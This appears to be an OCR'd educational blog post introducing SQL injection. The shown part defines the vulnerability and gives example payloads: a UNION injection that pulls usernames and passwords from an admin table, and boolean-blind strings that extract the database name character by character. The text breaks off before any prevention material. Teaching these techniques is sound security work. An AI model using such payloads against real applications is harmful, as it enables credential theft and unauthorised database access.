 ```yaml
---
title: "SQL Injection: From Basic to Advanced"
date: "2024-02-20"
excerpt: "Deep dive into SQL injection techniques and prevention strategies..."
status: "in-progress"
journey: "appsec-labs"
tags: ["SQL Injection", "Web Security", "Database Security", "OWASP"]
---
```


# SQL Injection: From Basic to Advanced

SQL injection remains one of the most critical security vulnerabilities in web applications. This comprehensive guide takes you from basic understanding to advanced exploitation techniques and robust prevention strategies.

## What is SQL Injection?

SQL injection occurs when an application incorporates untrusted data into SQL queries without proper validation or parameterization. This allows attackers to manipulate database queries and potentially:

- Extract sensitive data
- Bypass authentication mechanisms  
- Modify or delete database records
- Execute administrative operations on the database

## Basic SQL Injection Techniques

### 1. Union-Based SQL Injection

```sql
-- Original query
SELECT id, name, email FROM users WHERE id = '1'

-- Malicious input: 1' UNION SELECT 1,username,password FROM admin_users--
-- Resulting query
SELECT id, name, email FROM users WHERE id = '1' UNION SELECT 1,username,password FROM admin_users--'
```

### 2. Boolean-Based Blind SQL Injection

When the application doesn't return database errors or results directly, attackers can infer information based on application behavior:

```sql
-- Test if current user is 'admin'
1' AND (SELECT SUBSTRING(USER(),1,5))='admin'--

-- Extract database name character by character
1' AND (SELECT SUBSTRING(DATABASE(),1,1))='a'--
```
